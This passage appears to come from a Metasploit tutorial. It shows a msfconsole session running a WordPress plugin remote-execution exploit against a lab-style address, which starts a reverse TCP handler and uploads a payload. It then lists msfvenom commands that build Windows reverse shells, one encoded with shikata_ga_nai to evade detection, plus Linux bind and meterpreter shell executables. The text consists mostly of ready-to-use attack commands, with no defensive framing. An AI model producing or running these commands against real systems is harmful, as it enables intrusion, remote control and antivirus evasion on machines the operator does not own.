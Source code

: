 Now set exploit

```
msf5 exploit(unix/webapp/wp_platform_exec) > set RHOST 10.10.10.35
RHOST => 10.10.10.35
msf5 exploit(unix/webapp/wp_platform_exec) > set RPORT 80
RPORT => 80
msf5 exploit(unix/webapp/wp_platform_exec) > set TARGETURI 10.10.10.35/wp_plugin
TARGETURI => 10.10.10.35/wp_plugin
msf5 exploit(unix/webapp/wp_platform_exec) > run

[*] Started reverse TCP handler on 192.168.43.209:4444 
[*] Uploading payload
```

And this will exploit the vulnerability on the target and you will get meterpreter shell on your metasploit-framework.


**Msfvenom**

It's my personal favorite, I will explain it to use it in my way.

```
msfvenom -l
```


Let's create windows reverse TCP shell


Launch your terminal and execute the command below

```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > hackershell.exe
```
To create encoded windows reverse TCP shell

```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > enchackershell.exe
```
To create linux Bind Shell

```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > hacker.elf
```


To create Linux Meterpreter Reverse Shell

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > hacker.elf
```

To create Linux Bind Meterpreter Shell

```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > hacker.elf
```
